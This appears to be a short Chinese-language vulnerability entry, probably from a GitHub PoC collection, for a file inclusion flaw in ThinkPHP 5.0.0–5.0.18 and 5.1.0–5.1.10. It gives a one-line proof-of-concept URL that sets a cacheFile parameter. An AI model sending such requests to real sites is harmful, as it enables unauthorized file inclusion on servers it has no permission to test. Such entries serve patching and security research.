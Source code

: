 # Thinkphp5文件包含漏洞

## #影响范围

5.0.0 <= Thinkphp <= 5.0.18

5.1.0 <= ThinkPHP <= 5.1.10



## #Poc

```
http://x.x.x.x/index/index/index?cacheFile=1.jpg
```

